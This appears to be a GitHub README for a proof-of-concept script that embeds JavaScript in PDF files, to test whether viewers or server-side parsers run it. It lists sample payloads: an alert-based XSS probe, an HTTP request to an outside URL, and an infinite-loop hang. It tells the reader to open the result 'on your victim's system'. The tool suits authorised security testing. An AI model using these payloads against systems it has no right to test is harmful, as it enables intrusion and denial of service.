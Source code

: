 # Generate PDF File Containing JavaScript Code

PDF may contain JavaScript code. 
This script allow us to generate a PDF file which helps us to check if that code is executed when the file is opened.
Possible targets are client applications trying to open the file or sererside backends which are parsing the PDF file.

## HowTo

1. Edit the file `poc.js` with the JS code you want to have included in your PDF file
2. Install the required python modules using `pip install pdfrw`
3. Create the PDF: `python poc.py poc.js`
4. Open the file `result.pdf` on your victim's system

## Possible exploit codes

The full set of available functions is documented here: https://opensource.adobe.com/dc-acrobat-sdk-docs/library/jsapiref/JS_API_AcroJS.html

### XSS (for GUI viewers)

```js
app.alert("XSS");
```

### Open URL

```js
var cURL="http://[REDACTED]/";
var params =
{
     cVerb: "GET",
     cURL: cURL
};
Net.HTTP.request(params);
```

### Timeout

```js
while (true) {}
```

## References

The code is based on https://github.com/osnr/horrifying-pdf-experiments/
